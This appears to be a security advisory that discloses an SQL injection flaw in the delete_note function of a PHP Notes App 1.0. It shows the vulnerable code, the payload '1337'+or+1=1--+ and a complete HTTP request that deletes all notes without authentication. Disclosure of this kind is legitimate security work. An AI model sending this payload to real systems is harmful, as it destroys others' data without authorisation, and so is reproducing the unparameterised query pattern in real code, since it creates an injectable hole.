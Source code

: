 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Notes App using PHP (OOP), jQuery, and Bootstrap 1.0](https://www.sourcecodester.com/php/16055/notes-app-using-php-oop-jquery-and-bootstrap-free-source-code.html) <br/>

**Affected Version**:
> Notes App using PHP (OOP), jQuery, and Bootstrap 1.0

**Affected Site Page**: 
> /ajax-api.php?action=delete_note<br/>

**Affected Code**: 
> </ajax-api.php [CLASS delete_note()]> <br/>

```php
    function delete_note(){
        extract($_POST);
        if(!isset($id)){
            $resp['status'] = 'error';
            $resp['error'] = "Invalid Note ID";
        }else{
            $sql = "DELETE FROM `notes` where `id` = '{$id}'";
            $delete = $this->conn->query($sql);
            if($delete){
                $resp['status'] = 'success';
                $_SESSION['message']['success'] = "Note Data has been deleted successfully.";
            }else{
                $resp['status'] = 'success';
                $resp['error'] = "Deleting Note Data failed. Error: ". $this->conn->error;
            }
        }
        return json_encode($resp);
    }
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all Notes are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/243d42ad-4cc8-4dcb-bce8-ded837dae901)

Execute Delete query using payload `1337'+or+1=1--+` via the `id` parameter.

```http 
POST /php-notes/ajax-api.php?action=delete_note HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 18

id=1337'+or+1=1--+
```

> DELETES all notes without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/c4adb9d0-e6f1-43f5-a340-dfe199913333)

## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
